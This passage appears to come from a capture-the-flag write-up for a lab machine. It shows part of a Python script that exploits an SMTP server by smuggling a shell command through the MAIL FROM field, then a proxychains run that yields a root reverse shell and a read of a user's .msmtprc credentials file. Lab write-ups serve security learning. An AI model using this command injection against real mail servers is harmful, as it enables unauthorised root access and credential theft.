 ```python
        continue
    try:
        s.connect(sa)
    except OSError as msg:
        s.close()
        s = None
        continue
    break
if s is None:
    print('could not open socket')
    sys.exit(1)
with s:
    data = s.recv(1024)
    print('Received', repr(data))
    time.sleep(1)
    print('sending')
    s.send(b"helo test.com\r\n")
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(b"MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>\r\n")
    time.sleep(1)
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(b"RCPT TO:<j.nakazawa@realcorp.htb>\r\n")
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(b"DATA\r\n")
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(payload)
    data = s.recv(1024)
    print('Received', repr(data))
    s.send(b"QUIT\r\n")
    data = s.recv(1024)
    print('Received', repr(data))
print("done")
s.close()
```

after that I ran the exploit

```
proxychains python3 smtp_exploit.py 10.241.251.113
```

And we got the reverse shell as root

## User

Reading a file in /home/j.nakazawa/.msmtprc

and found some creds
